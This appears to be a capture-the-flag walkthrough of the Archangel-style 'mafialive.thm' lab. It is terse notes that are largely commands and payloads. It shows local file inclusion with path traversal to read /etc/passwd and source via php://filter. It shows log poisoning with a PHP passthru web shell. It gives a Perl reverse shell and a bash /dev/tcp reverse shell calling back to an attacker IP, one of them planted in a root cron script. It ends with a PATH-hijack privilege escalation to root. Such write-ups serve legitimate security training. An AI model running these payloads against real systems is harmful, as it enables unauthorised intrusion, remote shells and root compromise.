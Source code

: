 # Info

## IP = $IP

# Ports

## Port Scanning
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## 22

## 80
- in email, It's possible to find domain name:
    - `mafialive.thm`
    - trade in _/etc/hosts_

### `mafialive.thm`
- first flag
- find in `robots.txt` or ...
- find, with manual test, the directory `http://mafialive.thm/test.php`

### `http://mafialive.thm/test.php`
- probable LFI
- yes: https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses
    - `view: /var/www/html/development_testing/..///////..////..//////..///////..////..//////etc/passwd`
- read `mrrobot.php` file
    - `view: php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
    - second flag
- log poisoning
```bash
┌──(kali㉿kali)-[~]
└─$ nc $IP 80               
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```
```bash
view: /var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
cmd: perl -e 'use Socket;$i="$ATK_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

# PrivEsc

- in `/home/archange`, the third flag is in `user.txt`

## _linpeas.sh_

- /opt/helloworld.sh
    - write permissions
    - in _crontab_
    - `/bin/bash -i 5<> /dev/tcp/$ATK_IP/1337 0<&5 1>&5 2>&5`

## with **archangel** account
- /home/archangel/secret/backup
- read `strings` -> call the `cp` command
- it's possible to create a new `cp` command that will be executed in this file owned by root
```bash
$ pwd
pwd
/home/archangel/secret
$ echo "#!/bin/bash" > cp
echo "#!/bin/bash" > cp
$ echo "/bin/bash" >> cp
echo "/bin/bash" >> cp
$ chmod +x cp
chmod +x cp
$ export PATH=$PWD:$PATH
export PATH=$PWD:$PATH
$ echo $PATH
echo $PATH
/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
 ./backup
./backup
root@ubuntu:~/secret# cd /root
cd /root
root@ubuntu:/root# cat root.txt
cat root.txt
```